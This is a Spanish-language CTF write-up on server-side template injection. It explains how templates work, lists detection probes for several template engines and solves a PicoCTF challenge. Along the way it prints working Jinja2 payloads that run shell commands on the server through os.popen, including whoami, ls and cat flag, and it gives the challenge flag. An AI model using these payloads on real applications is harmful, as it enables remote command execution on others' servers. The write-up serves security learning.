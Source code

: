 ```yaml
---
{"dg-publish":true,"permalink":"/bug-bounty/template-injection/server-side-template-injection/"}
---
```


Server-Side Template Injection (SSTI) es una vulnerabilidad web que ocurre cuando una aplicacion del lado del servidor (server-side) evalua dinamicamente plantillas (templates) con entradas controladas por el usuario sin una validacion adecuada.

# Que es exactamente una plantilla (template)?

Una plantilla es como un molde con partes fijas (como HTML) y espacios para rellenar con datos que el servidor pone.
Por ejemplo imagina este HTML:

```
<h1>Hola {{ nombre }}</h1>
```
El **{{ nombre }}** es una expresion de plantilla, que se reemplaza automaticamente por un valor en el servidor, como:

```
<h1> Hola Cesar </h1>
```

# Como identificar un SSTI
1. Debemos encontrar un punto de inyeccion: un campo de entrada que luego se renderiza en una pagina (por ejemplo: name, message, comment).
2. Prueba con paylodas simples de cada motor de plantillas para ver si se evaluan.
	1. Si te sale el resultado calculado (por ejemplo 4), tienes SSTI.
Aqui tienes una tabla con pyloads de prueba de motores comunes:

| Motor            | Payload de prueba |
| ---------------- | ----------------- |
| Jinja2 (Python)  | {{7*7}}           |
| Twig (PHP)       | {{7*7}}           |
| Velocity (Java)  | #set($x=7*7) $x   |
| Freemaker (java) | ${7*7}            |
| Smarty (PHP)     | {$smarty.version} |

Si la salida es 49 estas ejecutando codigo dentro de la plantilla.

Procederemos a mostrar de que va la vulnerabilidad con un ejercicio de PicoCTF:

![Pasted image 20250716192706.png](/img/user/imgs/Pasted%20image%2020250716192706.png)

Accedemos al link y tenemos la siguiente pagina:

![Pasted image 20250716192734.png](/img/user/imgs/Pasted%20image%2020250716192734.png)

Observando mas de cerca tenemos lo siguiente:

![Pasted image 20250716192758.png](/img/user/imgs/Pasted%20image%2020250716192758.png)

Nos dice que el sitio nos permite anunciar cualquier cosa que queramos.

Probamos con payloads basicos como: **{{7x7}}***

Ahora vemos que nos devuelve el calculo:

![Pasted image 20250716192932.png](/img/user/imgs/Pasted%20image%2020250716192932.png)

Por lo tanto estamos tratando con Server Side Template Injection.

Procedemos a probar algunos paylods para saber mas informacion, debemos buscar variantes ya que puede que haya atributos bloqueados.


```
# Este payload te permite ejecutar un comando en el servidor:
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}


# Otros equivalentes:
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}

{{''.__class__.__mro__[1].__subclasses__()[<index>].__init__.__globals__['os'].popen('cat flag.txt').read()}}

```

En este caso me funcion el segundo:

```
# Para saber que usuarios somos
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('whoami').read() }}

# Ver el contenido
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

# Mostrar la flag correspondiente al reto
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

```

![Pasted image 20250716193353.png](/img/user/imgs/Pasted%20image%2020250716193353.png)

![Pasted image 20250716193418.png](/img/user/imgs/Pasted%20image%2020250716193418.png)

![Pasted image 20250716193440.png](/img/user/imgs/Pasted%20image%2020250716193440.png)

Flag: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}

